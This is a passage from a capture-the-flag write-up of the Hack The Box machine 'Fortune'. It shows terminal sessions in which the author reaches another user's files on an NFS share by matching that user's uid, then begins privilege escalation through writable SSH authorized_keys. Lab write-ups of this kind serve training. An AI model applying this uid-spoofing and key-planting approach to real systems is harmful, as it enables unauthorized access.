 ```
total 12
drwxr-xr-x 5 root root  512 Nov  3  2018 .
drwxr-xr-x 4 root root 4096 Aug  2 14:23 ..
drwxr-xr-x 5 1001 1001  512 Nov  3  2018 bob
drwxr-x--- 3 rick rick  512 Aug  2 12:21 charlie
drwxr-xr-x 2 1002 1002  512 Nov  3  2018 nfsuser
root@kali:~/Desktop/HTB/boxes/fortune# 
```
<br> However I couldn't access `charlie`'s directory :
```
root@kali:~/Desktop/HTB/boxes/fortune# cd mnt
root@kali:~/Desktop/HTB/boxes/fortune/mnt# cd charlie
-bash: cd: charlie: Permission denied
```
<br> This is because I'm trying with `root` whose `uid` is `0` :
```
root@kali:~/Desktop/HTB/boxes/fortune/mnt# id 
uid=0(root) gid=0(root) groups=0(root)
root@kali:~/Desktop/HTB/boxes/fortune/mnt# 
```
<br> And the way `nfs` permissions work I need to have the same `uid` as `charlie` which is `1000` :
```
[?] command : id charlie
[*] Result :

uid=1000(charlie) gid=1000(charlie) groups=1000(charlie), 0(wheel)
```
<br> I already have a user on my box with the `uid` 1000 called `rick` :
```
root@kali:~/Desktop/HTB/boxes/fortune/mnt# id rick
uid=1000(rick) gid=1000(rick) groups=1000(rick)
root@kali:~/Desktop/HTB/boxes/fortune/mnt#
```
![](/images/hackthebox/fortune/16.png)
<br> We owned user.
<br>
<hr>
## Privilege Escalation, Root Flag
<br> First thing I wanted to do is to get `ssh`, luckily I had write access to `authorized_keys` :
```
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie$ ls -la
total 22
drwxr-x--- 3 rick rick 512 Nov  6  2018 .
drwxr-xr-x 5 root root 512 Nov  3  2018 ..
-rw-r----- 1 rick rick 771 Oct 11  2018 .cshrc
-rw-r----- 1 rick rick 101 Oct 11  2018 .cvsrc
-rw-r----- 1 rick rick 359 Oct 11  2018 .login
-rw-r----- 1 rick rick 175 Oct 11  2018 .mailrc
-rw------- 1 rick rick 608 Nov  3  2018 mbox
-rw-r----- 1 rick rick 216 Oct 11  2018 .profile
drwx------ 2 rick rick 512 Nov  2  2018 .ssh
-r-------- 1 rick rick  33 Nov  3  2018 user.txt
-rw-r----- 1 rick rick  87 Oct 11  2018 .Xdefaults
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie$ cd .ssh
rick@kali:/root/Desktop/HTB/boxes/fortune/mnt/charlie/.ssh$ ls -la
total 4
drwx------ 2 rick rick 512 Nov  2  2018 .
```